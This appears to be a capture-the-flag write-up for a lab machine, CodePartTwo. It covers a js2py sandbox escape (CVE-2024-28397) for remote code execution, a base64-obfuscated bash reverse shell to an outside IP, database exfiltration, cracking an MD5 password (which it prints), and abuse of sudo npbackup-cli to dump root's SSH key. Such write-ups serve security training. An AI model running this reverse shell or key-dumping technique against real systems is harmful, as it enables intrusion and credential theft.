CodePartTwo

CodePartTwo was an easy-difficulty Linux machine that began with an nmap scan revealing SSH on port 22 and a web application on port 8000. After creating a test account, I downloaded the application source code and identified a critical dependency in requirements.txt: js2py version 0.74, which is vulnerable to CVE-2024-28397 (sandbox escape leading to RCE). The web application featured a JavaScript code editor that passed user input directly to js2py.eval_js without sanitization. I leveraged the linked GitHub PoC to craft a sandbox escape payload using Python's JsDate constructor deserialization, modifying the exploit to execute system commands. After successfully achieving RCE with a whoami test, I escalated to a full reverse shell using a base64-encoded bash payload to avoid special character issues, gaining initial access as the app user.
Once inside, I immediately exfiltrated the SQLite database (app.db) to analyze offline. Using sqlite3, I discovered MD5-hashed credentials for multiple users. I cracked the hashes using CrackStation and successfully recovered marco's password (sweetangelbabylove), allowing me to SSH into the machine and obtain the user flag.
For privilege escalation, I ran sudo -l and discovered marco could execute /usr/local/bin/npbackup-cli as root without a password—a backup utility with a configuration file at npbackup.conf. Analyzing the config, I found it was set to back up only /home/app/app/ by default. I created a modified configuration file (npbackup1.conf) that changed the backup path to /root, then used npbackup-cli with the -b flag to create a backup snapshot of the root directory. After listing snapshots to identify the correct snapshot ID, I used the --dump flag to extract /root/.ssh/id_rsa from the backup repository. I copied the private SSH key to my machine, set appropriate permissions, and successfully authenticated as root via SSH to capture the root flag.
User flag

Initial nmap scan reveals only 2 open ports. SSH on 22, and a website on 8000.
Investigating the website

I can create an account and download the app's source code. I'll do both, beginning by creating an account of test:test

It looks like I can run JS code through this website. I'll take a look at the source code.

I can see a requirements.txt file. This file is used to specify necessary libraries for Python scripts, and often contains version numbers of these packages.
# requirements.txt
flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74

The code that I'll be running on the web editor is passed directly to js2py.eval_js. I'll check this version of js2py for vulnerabilities.
https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/tree/main
Based on the exploit code, I came up with a way to achieve RCE directly via the web code editor. The main idea here is to escape the sandbox and reach the Python classes for classic RCE.

Running commands on the host
I wanted to exfiltrate the DB without getting a reverse shell, but that proved to be quite a bit more complicated than I thought. I can send myself a reverse shell by replacing the whoami command with:
printf YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuOTIvOTAwMSAwPiYxJwo=| base64 -d |bash

I sent the database back to my host right away, so that I could look through it with sqlite3.

From the source code, I know that the webapp uses MD5 for hashing its passwords. I will use CrackStation to try to crack these.

marco | sweetangelbabylove
I'll try to SSH into the box as marco.

Root flag

Marco can run npbackup-cli as root. This is a backup utility, and this immediately makes me think about backing up the /root directory for their SSH keys.
Taking a look at the npbackup.conf file, I can see something that might allow me to accomplish this.
conf_version: 3.0.1
audience: public
repos:
default:
repo_uri:
__NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
repo_group: default_group
backup_opts:
paths:
- /home/app/app/ (!)
source_type: folder_list
exclude_files_larger_than: 0.0
repo_opts:
repo_password:
__NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
retention_policy: {}
prune_max_unused: 0
prometheus: {}
env: {}
is_protected: false
With this config, only the /home/app/app directory will be backed up. If I change this path to /root, that should be backed up as well.
Then I'll use the -b flag to back up the root dir, and the appropriate snapshot ID to list the backed-up contents.
sudo /usr/local/bin/npbackup-cli -b -c npbackup1.conf
sudo /usr/local/bin/npbackup-cli --snapshots -c npbackup1.conf
sudo /usr/local/bin/npbackup-cli --snapshot-id acf6c37c -c npbackup1.conf --dump /root/.ssh/id_rsa

I'll copy the key to my box, and I will SSH into the box as root.

Rooted!